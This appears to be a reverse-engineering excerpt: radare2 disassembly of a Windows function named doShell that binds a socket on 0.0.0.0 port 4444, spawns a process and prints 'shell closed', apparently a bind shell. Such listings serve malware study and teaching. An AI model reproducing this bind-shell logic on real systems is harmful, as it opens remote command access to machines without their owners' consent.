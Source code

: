 ```
|     ||    0x00401758      b900000000     mov ecx, 0
|     ||    0x0040175d      488b05646b00.  mov rax, qword sym.imp.KERNEL32.dll_CreateProcessA ; [0x4082c8:8]=0x8508 reloc.KERNEL32.dll_CreateProcessA
|     ||    0x00401764      ffd0           call rax
|     ||    0x00401766      488b45e0       mov rax, qword [local_20h_2]
|     ||    0x0040176a      baffffffff     mov edx, 0xffffffff         ; -1
|     ||    0x0040176f      4889c1         mov rcx, rax
|     ||    0x00401772      488b050f6c00.  mov rax, qword sym.imp.KERNEL32.dll_WaitForSingleObject ; [0x408388:8]=0x8702 reloc.KERNEL32.dll_WaitForSingleObje
|     ||    0x00401779      ffd0           call rax
|     ||    0x0040177b      488b45e0       mov rax, qword [local_20h_2]
|     ||    0x0040177f      4889c1         mov rcx, rax
|     ||    0x00401782      488b05376b00.  mov rax, qword sym.imp.KERNEL32.dll_CloseHandle ; [0x4082c0:8]=0x84fa reloc.KERNEL32.dll_CloseHandle
|     ||    0x00401789      ffd0           call rax
|     ||    0x0040178b      488b45e8       mov rax, qword [local_18h]
|     ||    0x0040178f      4889c1         mov rcx, rax
|     ||    0x00401792      488b05276b00.  mov rax, qword sym.imp.KERNEL32.dll_CloseHandle ; [0x4082c0:8]=0x84fa reloc.KERNEL32.dll_CloseHandle
|     ||    0x00401799      ffd0           call rax
|     ||    0x0040179b      488b85380200.  mov rax, qword [arg_238h]   ; [0x238:8]=-1 ; 568
|     ||    0x004017a2      4889c1         mov rcx, rax
|     ||    0x004017a5      488b05ec6a00.  mov rax, qword sym.imp.WS2_32.dll_closesocket ; [0x408298:8]=0x84ce reloc.WS2_32.dll_closesocket
|     ||    0x004017ac      ffd0           call rax
|     ||    0x004017ae      488b85300200.  mov rax, qword [arg_230h]   ; [0x230:8]=-1 ; 560
|     ||    0x004017b5      4889c1         mov rcx, rax
|     ||    0x004017b8      488b05d96a00.  mov rax, qword sym.imp.WS2_32.dll_closesocket ; [0x408298:8]=0x84ce reloc.WS2_32.dll_closesocket
|     ||    0x004017bf      ffd0           call rax
|     ||    0x004017c1      488b05a06a00.  mov rax, qword sym.imp.WS2_32.dll_WSACleanup ; [0x408268:8]=0x8480 reloc.WS2_32.dll_WSACleanup
|     ||    0x004017c8      ffd0           call rax
|     ||    0x004017ca      488d0d4e2800.  lea rcx, str.shell_closed   ; 0x40401f ; "shell closed "
|     ||    0x004017d1      e86a150000     call sym.puts               ; int puts(const char *s)
|     ||    ; JMP XREF from 0x0040169d (sym.doShell)
|     ||    ; JMP XREF from 0x00401648 (sym.doShell)
|     ``--> 0x004017d6      90             nop
|           0x004017d7      4881c4c00200.  add rsp, 0x2c0
|           0x004017de      5d             pop rbp
\           0x004017df      c3             ret
[0x00401550]>
```

```
|           0x00401596      41b900000000   mov r9d, 0
|           0x0040159c      41b806000000   mov r8d, 6
|           0x004015a2      ba01000000     mov edx, 1
|           0x004015a7      b902000000     mov ecx, 2
|           0x004015ac      488b05c56c00.  mov rax, qword sym.imp.WS2_32.dll_WSASocketA ; [0x408278:8]=0x84a0 reloc.WS2_32.dll_WSASocketA
|           0x004015b3      ffd0           call rax
|           0x004015b5      488985380200.  mov qword [arg_238h], rax   ; [0x238:8]=-1 ; 568
|           0x004015bc      66c785800000.  mov word [arg_80h], 2       ; [0x80:2]=0xffff ; 2
|           0x004015c5      b95c110000     mov ecx, 0x115c
|           0x004015ca      488b05cf6c00.  mov rax, qword sym.imp.WS2_32.dll_htons ; [0x4082a0:8]=0x84dc reloc.WS2_32.dll_htons
|           0x004015d1      ffd0           call rax
|           0x004015d3      668985820000.  mov word [arg_82h], ax      ; [0x82:2]=0xffff ; 130
|           0x004015da      488d0d1f2a00.  lea rcx, str.0.0.0.0        ; section..rdata ; 0x404000 ; "0.0.0.0"
|           0x004015e1      488b05c06c00.  mov rax, qword sym.imp.WS2_32.dll_inet_addr ; [0x4082a8:8]=0x84e4 reloc.WS2_32.dll_inet_addr
```